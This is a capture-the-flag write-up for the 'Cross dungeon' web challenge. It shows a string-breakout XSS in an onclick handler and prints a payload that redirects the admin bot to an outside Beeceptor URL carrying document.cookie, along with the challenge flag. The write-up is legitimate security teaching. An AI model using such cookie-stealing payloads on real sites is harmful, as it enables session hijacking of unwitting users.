 # Cross dungeon

Here is my writeup of the second web challenge of a private CTF. (Challenge by Mizu)

I flag it with an unintended method so you can check this [writeup](https://hippie.cat/post/Writeup/ESAIP-Qualif/Cross-site-dungeon) from Hippie to see the intended method.

Task: The final battle against ganon has started! Ganon is holding the holy cookie, find a way to steal it from him!

## First look

We can see a little welcome page:

![first_look](images/first_look.png)

We have 2 interesting pages. First we can see the dungeon where we can fight a monster and secondly we can report an url to the administrator.

Let's take a look to the dungeon:

![dungeon](images/dungeon.png)

We can use 3 objects, a sword, a potion and a shield we'll use it later.

Now we'll check the report page:

![report](images/report.png)

Hum, we can see that the administrator takes a potion while checking our vulnerable page, we'll exploit that.

## Setup the vulnerability

This is a js application and we have to steal cookies so we can suppose that we'll exploit a DOM Based XSS. I let you check my [article](https://0xhorizon.eu/articles/xss-dom-based/) about this vulnerability.

Let's have a look to the code, here is the HTML code for the potion:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('Link', 'Potion', '30')">Potion</button>
</div>
```

Hum, in our url ``/dungeon/30/Link`` there is 'Link' so is the url reflected in JS ?

Let's try with ``/dungeon/30/Booyaaaa``:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('Booyaaaa', 'Potion', '30')">Potion</button>
</div>
```

Yeah! We know that the administrator clicks on the potion so it will execute the JS code in make_damage(). Let's exploit it!

## Exploitation

I wrote a twitter [post](https://twitter.com/Ruulian_/status/1452369937515876356) about something in js which is useful in our case, all parameters of JS functions are evaluated :p

But we are in a string, we just have to close the quote. Our payload will start with ``'``.

Now we are in the JS as we want now, we'll use my little trick and put a ``,``, now we are in the second parameter and we can do what we want!

We'll use a redirect to an endpoint like [Beeceptor](https://beeceptor.com) to get admin cookies, here is our payload now: ``', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie))``.

But if we put this payload it will raise an error because the JS looks like that:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie))', 'Potion', '30')">Potion</button>
</div>
```

We'll finish with a ``,'`` to retrieve the end of the function:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie)), '', 'Potion', '30')">Potion</button>
</div>
```

``make_damage()`` takes 3 arguments but we gave 4, this is not a problem because the ``document.location.replace()`` is evaluated first :p

Let's try if our payload works!

Payload: ``/dungeon/30/',document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie)),')``

## Testing locally

We have to click on potion because we know that the bot does it when checking our url, let's try!

![beeceptor](images/beeceptor.png)

Yeah! Our payload works well!

## Conclusion

We just have to report it to the administrator and get our flag :p

![flag](images/flag.png)

Flag: ``R2Lille{1NN3R_HTML_t0_XSS_3AzYYY}``

Thanks for this cool challenge ^^
